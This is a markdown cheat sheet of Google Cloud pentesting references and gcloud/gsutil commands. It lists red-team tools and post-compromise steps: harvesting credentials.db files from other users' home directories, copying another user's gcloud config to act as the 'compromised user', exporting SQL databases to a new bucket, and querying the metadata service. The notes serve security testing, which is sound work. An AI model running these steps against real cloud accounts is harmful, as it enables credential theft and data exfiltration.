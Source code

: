 ## Docu
https://six2dez.gitbook.io/pentest-book/enumeration/cloud/gcp
### Pentesting Tactics
https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/
### IAM and Rolse References
https://cloud.google.com/iam/docs/permissions-reference
https://cloud.google.com/iam/docs/understanding-roles
### Persistence with SSH keys
https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#gcloud-or-api

## Tools
### Firewall enum
https://gitlab.com/gitlab-com/gl-security/security-operations/gl-redteam/gcp_firewall_enum
### Enumerate GCP
https://gitlab.com/gitlab-com/gl-security/security-operations/gl-redteam/gcp_enum
### Vulneravility scaner
https://github.com/aquasecurity/cloudsploit/blob/master/docs/gcp.md#cloud-provider-configuration
### Hardening review
https://github.com/DenizParlak/hayat
### Bruteforce Buckets
https://github.com/RhinoSecurityLabs/GCPBucketBrute
### IAM vsualization
https://github.com/marcin-kolda/gcp-iam-collector
### Gather information
https://github.com/nccgroup/ScoutSuite
### Miscelania
https://gitlab.com/gitlab-com/gl-security/security-operations/gl-redteam/gcp_misc

## Usefull comands
### Authentication with gcloud and retrieve info
```
gcloud auth login
gcloud auth activate-service-account --key-file creds.json
gcloud auth list
gcloud config list
gcloud organizations list
gcloud organizations get-iam-policy <org ID>
gcloud projects get-iam-policy <project ID>
gcloud projects list
gcloud config set project <project name>
gcloud services list
gcloud source repos list
gcloud source repos clone <repo_name>
```

### Virtual Machines
```
gcloud compute instances list
gcloud beta compute ssh --zone "<region>" "<instance name>" --project "<project name>"
```
### Puts public ssh key onto metadata service for project
```
gcloud compute ssh <local host>
curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H &#39;Metadata-Flavor:Google’
```
### Use Google keyring to decrypt encrypted data
```
gcloud kms decrypt --ciphertext-file=encrypted-file.enc --plaintext-file=out.txt --key <crypto-key> --keyring <crypto-keyring> --location global
```

### Storage Buckets
#### List Google Storage buckets
```
gsutil ls
gsutil ls -r gs://<bucket name>
gsutil cp gs://bucketid/item ~/
```

### Webapps & SQL
```
gcloud app instances list
gcloud sql instances list
gcloud spanner instances list
gcloud bigtable instances list
gcloud sql databases list --instance <instance ID>
gcloud spanner databases list --instance <instance name>
```
### Export SQL databases and buckets
#### First copy buckets to local directory
```
gsutil cp gs://bucket-name/folder/ .
```
#### Create a new storage bucket, change perms, export SQL DB
```
gsutil mb gs://<googlestoragename>
gsutil acl ch -u <service account> gs://<googlestoragename>
gcloud sql export sql <sql instance name> gs://<googlestoragename>/sqldump.gz --database=<database name>
```
### Networking
```
gcloud compute networks list
gcloud compute networks subnets list
gcloud compute vpn-tunnels list
gcloud compute interconnects list
```

### Containers
```
gcloud container clusters list
```

### GCP Kubernetes config file
```
 ~/.kube/config #gets generated when you are authenticated with
gcloud container clusters get-credentials <cluster name> --region <region>
kubectl cluster-info
```

### Serverless
```
gcloud functions list
gcloud functions describe <function name>
gcloud functions logs read <function name> --limit <number of lines>
```

### Gcloud stores creds in
``` ~/.config/gcloud/credentials.db # Search home directories
sudo find /home -name "credentials.db
```

### Copy gcloud dir to your own home directory to auth as the compromised user
```
sudo cp -r /home/username/.config/gcloud ~/.config
sudo chown -R currentuser:currentuser ~/.config/gcloud
gcloud auth list
```

### Metadata Service URL
```
# metadata.google.internal = 169.254.169.254
curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H
"Metadata-Flavor: Google"
```